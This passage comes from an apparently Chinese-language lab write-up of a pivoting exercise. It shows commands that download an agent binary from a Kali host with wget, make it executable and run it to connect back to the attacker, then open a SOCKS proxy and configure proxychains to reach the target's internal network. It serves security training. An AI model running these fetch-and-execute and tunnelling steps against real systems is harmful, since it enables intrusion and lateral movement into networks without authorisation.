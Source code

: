 ![image-20210918110518309](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918110518309.png)

再使用**客户端**（目标容器系统）**访问Kali来下载**agent_linux_x64

```
wget http://10.0.2.4/agent_linux_x64
```

```
ls
```

并赋予agent_linux_x64可执行权限

```
chmod +x agent_linux_x64
```

![image-20210918110710067](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918110710067.png)

启动客户端程序，与Kali建立连接

```
./agent_linux_x64 -rhost 10.0.2.4 -rport 9999
```

![image-20210918110830474](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918110830474.png)

服务器端也接收到了客户端的连接请求

#### 2.4建立连接

```
show #显示已连接成功的节点
```

```
goto 1 #连接当前该节点
```

![image-20210918110902587](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918110902587.png)

```
socks 1080
```

启动socks监听1080端口，建立一条**代理通道**，让kali能够通过代理去**正常访问**目标容器系统**内网网段**，方便使用kali上的各类工具

![image-20210918111109130](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918111109130.png)

利用proxychains**建立代理**

在Kali端 修改配置文件

```
sudo vi /etc/proxychains4.conf 
```

![image-20210918111302194](C:/Users/52307/AppData/Roaming/Typora/typora-user-images/image-20210918111302194.png)
